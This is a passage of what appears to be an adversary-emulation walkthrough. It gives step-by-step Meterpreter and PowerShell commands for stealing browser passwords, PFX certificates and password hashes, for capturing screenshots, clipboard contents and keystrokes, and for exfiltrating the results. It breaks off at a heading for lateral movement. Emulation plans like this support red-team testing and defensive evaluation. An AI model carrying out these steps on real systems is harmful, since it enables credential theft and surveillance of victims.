 ### Step 6 - Credential Access

#### 6.A
Execute chrome-password collector:

[meterpreter (PowerShell)\*] > `& "C:\Program Files\SysinternalsSuite\accesschk.exe"`     

#### 6.B
Steal PFX certificate:      
  
[meterpreter (PowerShell)\*] > `Get-PrivateKeys`      

[meterpreter (PowerShell)\*] > `exit`     

#### 6.C
Dump password hashes:

[meterpreter\*] > `run post/windows/gather/credentials/credential_collector`

### Step 7 - Collection and Exfiltration

#### 7.A

[meterpreter\*] > `execute -f powershell.exe -i -H`   

[meterpreter (PowerShell)\*] > `cd "C:\Program Files\SysinternalsSuite"`

[meterpreter (PowerShell)\*] > `Move-Item .\psversion.txt psversion.ps1`

[meterpreter (PowerShell)\*] > `. .\psversion.ps1`

[meterpreter (PowerShell)\*] > `Invoke-ScreenCapture;Start-Sleep -Seconds 3;View-Job -JobName "Screenshot"`   

From the Windows victim, type text and copy to the clipboard.

[meterpreter (PowerShell)\*] > `Get-Clipboard`

[meterpreter (PowerShell)\*] > `Keystroke-Check`     

[meterpreter (PowerShell)\*] > `Get-Keystrokes;Start-Sleep -Seconds 15;View-Job -JobName "Keystrokes"`    

From victim system, enter keystrokes.

View keylog output from Metasploit:

[meterpreter (PowerShell)\*] > `View-Job -JobName "Keystrokes"`  
[meterpreter (PowerShell)\*] > `Remove-Job -Name "Keystrokes" -Force`       
[meterpreter (PowerShell)\*] > `Remove-Job -Name "Screenshot" -Force`    

#### 7.B

[meterpreter (PowerShell)\*] > `Invoke-Exfil`

### Step 8 - Lateral Movement

#### 8.A
